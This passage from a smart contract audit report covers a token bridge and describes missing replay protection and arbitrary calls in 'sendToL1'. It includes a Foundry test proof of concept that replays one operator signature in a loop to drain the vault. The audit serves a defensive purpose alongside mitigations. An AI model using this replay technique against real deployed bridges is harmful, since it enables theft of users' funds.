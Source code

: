 **Recommended Mitigation:** As suggested in H-1, consider modifying the `depositTokensToL2` function so that the caller cannot specify a `from` address.

### [H-3] Lack of replay protection in `withdrawTokensToL1` allows withdrawals by signature to be replayed

**Description:** Users who want to withdraw tokens from the bridge can call the `sendToL1` function, or the wrapper `withdrawTokensToL1` function. These functions require the caller to send along some withdrawal data signed by one of the approved bridge operators.

**Impact:** The signatures do not include any kind of replay-protection mechanisn (e.g., nonces). Therefore, valid signatures from any  bridge operator can be reused by any attacker to continue executing withdrawals until the vault is completely drained.

**Proof of Concept:** Include the following test in the `L1TokenBridge.t.sol` file:

```javascript
function testCanReplayWithdrawals() public {
    // Assume the vault already holds some tokens
    uint256 vaultInitialBalance = 1000e18;
    uint256 attackerInitialBalance = 100e18;
    deal(address(token), address(vault), vaultInitialBalance);
    deal(address(token), address(attacker), attackerInitialBalance);

    // An attacker deposits tokens to L2
    vm.startPrank(attacker);
    token.approve(address(tokenBridge), type(uint256).max);
    tokenBridge.depositTokensToL2(attacker, attackerInL2, attackerInitialBalance);

    // Operator signs withdrawal.
    (uint8 v, bytes32 r, bytes32 s) =
        _signMessage(_getTokenWithdrawalMessage(attacker, attackerInitialBalance), operator.key);

    // The attacker can reuse the signature and drain the vault.
    while (token.balanceOf(address(vault)) > 0) {
        tokenBridge.withdrawTokensToL1(attacker, attackerInitialBalance, v, r, s);
    }
    assertEq(token.balanceOf(address(attacker)), attackerInitialBalance + vaultInitialBalance);
    assertEq(token.balanceOf(address(vault)), 0);
}
```

**Recommended Mitigation:** Consider redesigning the withdrawal mechanism so that it includes replay protection(ex. nonce).

### [H-4] `L1BossBridge::sendToL1` allowing arbitrary calls enables users to call `L1Vault::approveTo` and give themselves infinite allowance of vault funds

**Description:** The `L1BossBridge` contract includes the `sendToL1` function that, if called with a valid signature by an operator, can execute arbitrary low-level calls to any given target. Because there's no restrictions neither on the target nor the calldata, this call could be used by an attacker to execute sensitive contracts of the bridge. For example, the `L1Vault` contract.
